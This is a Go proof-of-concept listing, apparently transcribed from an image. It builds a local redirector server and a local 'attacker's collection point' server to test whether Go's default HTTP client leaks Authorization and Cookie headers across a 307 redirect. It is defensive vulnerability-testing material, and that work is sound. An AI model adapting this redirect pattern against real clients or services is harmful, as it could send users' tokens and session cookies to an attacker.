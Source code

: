 ```go
func main() {
	// 1. Setup the Target Server (simulates attacker's collection server or unintended recipient)
	targetServer := httptest.NewServer(http.HandlerFunc(targetHandler))
	defer targetServer.Close()
	log.Printf("Target server (attacker's collection point) listening on: %s", targetServer.URL)

	// 2. Setup the Redirector Server
	// This server will issue the redirect that might cause the Go client to leak headers.
	redirectorServer := httptest.NewServer(http.HandlerFunc(redirectorHandler))
	defer redirectorServer.Close()
	log.Printf("Redirector server listening on: %s", redirectorServer.URL)

	// 3. Construct the initial request URL.
	// The Go client will connect to the redirectorServer, which will then redirect
	// to the targetServer. The `redirectTo` parameter tells the redirector where to send the client.
	initialRequestURL := fmt.Sprintf("%s/initial-path?redirectTo=%s/captured", redirectorServer.URL, targetServer.URL)

	// 4. Create a standard http.Client.
	// If running with a vulnerable Go version, this client's default redirect handling
	// will exhibit the flawed behavior.
	client := &http.Client{
		// No custom CheckRedirect is set, relying on the default (potentially vulnerable) policy.
	}

	// 5. Create a new request (e.g., a POST request with a body).
	// Using POST with 307 ensures method and body are intended to be preserved.
	req, err := http.NewRequest("POST", initialRequestURL, strings.NewReader("example_body_data=sensitive_payload"))
	if err!= nil {
		log.Fatalf("Error creating request: %v", err)
	}

	// 6. Add sensitive headers to the initial request.
	// These are the headers we are checking for leakage.
	req.Header.Add("Authorization", "Bearer VERY_SECRET_API_TOKEN_12345")
	req.Header.Add("Cookie", "session_id=abcdef1234567890; user_pref=dark_mode")
	req.Header.Add("X-Internal-Trace-ID", "trace-this-secretly") // Example of another custom sensitive header

	log.Printf("Making %s request to %s with sensitive headers...", req.Method, initialRequestURL)

	// 7. Execute the request using client.Do().
	// This is where the redirect will be followed and, in a vulnerable version,
	// headers might be leaked.
	resp, err := client.Do(req)
	if err!= nil {
		// Note: If a custom CheckRedirect were to return an error, 'resp' might be non-nil
		// and represent the response that issued the disallowed redirect.
		log.Fatalf("Error performing request: %v", err)
	}
	defer resp.Body.Close()

	// 8. Log the final response details.
	// The crucial check is to observe the logs of the `targetServer`.
	log.Printf("Final response received. Status: %s. Final URL: %s", resp.Status, resp.Request.URL.String())
	log.Println("Check the logs to see if 'Authorization' or 'Cookie' headers were leaked.")
}
```
